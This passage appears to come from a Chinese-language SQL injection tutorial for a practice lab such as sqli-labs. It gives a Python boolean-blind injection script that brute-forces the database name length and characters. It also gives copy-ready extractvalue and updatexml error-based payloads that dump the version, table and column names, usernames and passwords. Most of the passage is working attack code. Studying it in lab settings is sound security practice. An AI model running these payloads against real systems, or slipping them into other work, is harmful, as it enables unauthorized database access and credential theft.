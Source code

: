 ```
        payload = f"1') or length((select database()))={length}#"
        data["uname"] = payload
        response = requests.post(url, data=data).text
        if flag not in response:
            length += 1
        else:
            print("success")
            break
    print("数据库长度为", length)
    return length
```
&emsp;&emsp;照着修改一下即可。剩下的也是一样的，测长和字符的形式是一样，我就例举两个就行。
```
def get_database_length2(database_length):
    global flag, url
    database = ""
    for i in range(1, database_length + 1):
        for j in range(65,122):
            payload = f"1') or ascii(substr((select database()),{i},1))={j}#"
            data["uname"] = payload
            response = requests.post(url,data=data).text
            if flag in response:
                database += chr(j)
                print("数据库名为",database)
                break
    return database
```

###  报错注入
&emsp;&emsp;第十七关是一个密码重置界面，用户名已经找到，密码不知道，这一题还对用户名进行了检查，就只能对密码入手，如果布尔盲注和时间盲注都不能使用，就可以使用报错注入。就直接给固定公式了，原理可以再去搜索一下。

#### extractvalue报错注入
```
1' and (extractvalue(1,concat(0x5c,version(),0x5c)))#    爆版本
1' and (extractvalue(1,concat(0x5c,database(),0x5c)))#   爆数据库
 
1' and (extractvalue(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c)))#   爆表名
1' and (extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5c)))# 
 爆字段名
 
1' and (extractvalue(1,concat(0x5c,(select password from (select password from users where username='admin1') b) ,0x5c)))#      爆字段内容该格式针对mysql数据库。
1' and (extractvalue(1,concat(0x5c,(select group_concat(username,password) from users),0x5c)))#                      爆字段内容。
 ```

#### updatexml报错注入
```
123' and (updatexml(1,concat(0x5c,version(),0x5c),1))#     爆版本
123' and (updatexml(1,concat(0x5c,database(),0x5c),1))#    爆数据库
 
  
123' and (updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c),1))#      爆表名
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x5c),1))#
   爆字段名
 
123' and (updatexml(1,concat(0x5c,(select password from (select password from users where username='admin1') b),0x5c),1))#
爆密码该格式针对mysql数据库。
```